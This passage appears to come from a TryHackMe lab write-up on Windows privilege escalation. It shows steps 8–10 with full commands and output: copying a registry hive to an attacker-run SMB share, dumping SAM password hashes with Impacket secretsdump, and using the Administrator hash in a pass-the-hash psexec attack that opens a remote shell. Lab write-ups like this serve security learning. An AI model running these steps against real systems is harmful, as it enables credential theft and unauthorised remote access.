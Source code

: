 8. `copy <SYSTEM BACKUP FILE> <SMB SHARE>` from the compromised Windows machine to copy our SYSTEM backup file from the local machine to our SMB server that's running on our attack machine
```PowerShell
C:\Windows\system32>copy C:\Users\THMBackup\system.hive \\10.10.174.220\public\                                                                                 1 file(s) copied.
```
```Bash
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:public)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:public)
[*] Closing down connection (10.10.160.214,49770)
[*] Remaining connections []
[*] Incoming connection (10.10.160.214,49777)
[*] AUTHENTICATE_MESSAGE (WPRIVESC2\THMBackup,WPRIVESC2)
[*] User WPRIVESC2\THMBackup authenticated successfully
[*] THMBackup::WPRIVESC2:aaaaaaaaaaaaaaaa:49979ee56a3e931f05fbb73e33da8154:0101000000000000003f774435c7d901b5e29d5a6fcea66f00000000010010005500750068004a005500440065006100030010005500750068004a005500440065006100020010007900660056006800700073004d006c00040010007900660056006800700073004d006c0007000800003f774435c7d9010600040002000000080030003000000000000000000000000030000066375d7e28857eb587212f56dfdc68cc77fc1bad71a82ca14c5537d668b1a0930a001000000000000000000000000000000000000900240063006900660073002f00310030002e00310030002e003100370034002e003200320030000000000000000000
[*] Connecting Share(1:public)
[*] Disconnecting Share(1:public)
[*] Closing down connection (10.10.160.214,49777)
[*] Remaining connections []
```

9. `python3.9 /opt/impacket/examples/secretsdump.py -sam <SAM BACKUP FILE> -system <SYSTEM BACKUP FILE> LOCAL` from our attack machine to extract and dump the user account password hashes from the SAM and SYSTEM registry hives using the [Impacket Python Library](https://pypi.org/project/impacket/), which ended up revealing the compromised Windows machine's Administrator's password hash
```Bash
root@ip-10-10-174-220:~# python3.9 /opt/impacket/examples/secretsdump.py -sam ~/share/sam.hive -system ~/share/system.hive LOCAL
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMBackup:1008:aad3b435b51404eeaad3b435b51404ee:6c252027fb2022f5051e854e08023537:::
THMTakeOwnership:1009:aad3b435b51404eeaad3b435b51404ee:0af9b65477395b680b822e0b2c45b93b:::
[*] Cleaning up...
```

10. `python3.9 /opt/impacket/examples/psexec.py -hashes <PASSWORD HASH> <USER>@<TARGET MACHINE>` from our attack machine to perform a PtH (`Pass-the-Hash` attack) to remotely connect back to the compromised Windows machine as their Administrator, which ended up working and giving us a shell
```Bash
root@ip-10-10-174-220:~# python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 Administrator@10.10.160.214
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Requesting shares on 10.10.160.214.....
[*] Found writable share ADMIN$
[*] Uploading file KgzHWirv.exe
[*] Opening SVCManager on 10.10.160.214.....
[*] Creating service nEfC on 10.10.160.214.....
[*] Starting service nEfC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

```